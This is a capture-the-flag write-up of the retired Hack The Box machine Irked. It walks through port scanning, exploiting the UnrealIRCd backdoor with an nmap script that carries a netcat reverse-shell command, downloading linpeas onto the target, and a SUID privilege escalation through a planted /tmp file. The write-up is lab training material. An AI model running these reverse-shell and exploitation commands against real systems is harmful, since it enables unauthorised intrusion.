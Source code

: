 ```yaml
---
title: Irked Hackthebox Writeup
date: 2021-01-04 23:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,irc,UnrealIRCd,nmap,SUID]     # TAG names should always be lowercase
image: /assets/img/irked-hackthebox/irked-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Irked:~$


Column | Details
------------ | -------------
Name | Irked
IP | 10.10.10.117
Points | 20
Os | Linux
Difficult | Easy
Creator | [MrAgent](https://www.hackthebox.eu/home/users/profile/624)
Out on | 17th November 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Exploiting `UnrealIRCd` version of `irc` to get a shell.
* Using `LinEnum.sh` to find out something **phishy** and get Root.

# Starting:~$

## Nmap

From a `full port` scan I got to know the open ports, so I ran `-sV` for the service versions.
**Nmap Command** : `nmap -p 22,80,111,6697,8067,53090,65534 -sV -Pn 10.10.10.117`

___
![](/assets/img/irked-hackthebox/nmapp-scan-1.png)

Let's check `Port 80` first.

___
![](/assets/img/irked-hackthebox/port-80-2.png)

I used `dirbuster` for finding the hidden directories, with *directory-list-2.3-medium.txt* as the **wordlist**. 

___
![](/assets/img/irked-hakthebox/dirbuster-3.png)

I found `/manual/` directory using dirbuster.

___
![](/assets/img/irked-hackthebox/dirbuster-screenshot-4.png)

Accessing that directory, I got an `Apache Documentation` page.

___
![](/assets/img/irked-hackthebox/manual-webpage-5.png)

I checked the webiste but it was a waste of time, so I directly jumped to `6697,8067,65534` ports as they showed the service `irc`, which is also visible on port 80.

I googled **6697 enumeration** and found [RCE using Nmap]( https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html)

After trying the script on all 3 ports, it worked on `8067` port.

**Payload**: *nmap -d -p8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/bash IP 4444' 10.10.10.117*

and listening on Port `4444` using nc. We got a shell.

___
![](/assets/img/irked-hackthebox/got-shell-using-nmap-11.png)

**Stabling the shell**: *python -c 'import pty; pty.spawn("/bin/bash")'*

Checking for `user.txt`.

___
![](/assets/img/irked-hackthebox/locating-user-flag-12.png)

We do not have access to view `user.txt`.

___
![](/assets/img/irked-hackthebox/permission-denied-flag-13.png)

Let's `Escalate Privileges` by running [**linpeas.sh**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS). Downloading it to the vulnerable machine.

___
![](/assets/img/irked-hackthebox/linpeas-downloading-14.png)

*Hosting Command for linpeas.sh*: Python3 -m http.server 8081

*Downloading Command for linpeas.sh*: wget http://10.10.X.X:8081/linpeas.sh

Running `linpeas.sh` after giving it executing permissions by *chmod +x linpeas.sh*, I found something interesting.

___
![](/assets/img/irked-hackthebox/suid-15.png)

I used *strings* command to check the content of `viewuser`, and found this:

___
![](/assets/img/irked-hackthebox/lisyusers-16.png)

This shows that `listusers` in `/tmp` directory is being executed with root permissions and *listusers* doesn't exist there, So I created a file with the name called `listusers` consisting of malicious payload and gave it executing permissions by *chmod +x listusers*.

Then further executed `viewuser` to get `Root`.

___
![](/assets/img/irked-hackthebox/got-root-117.png)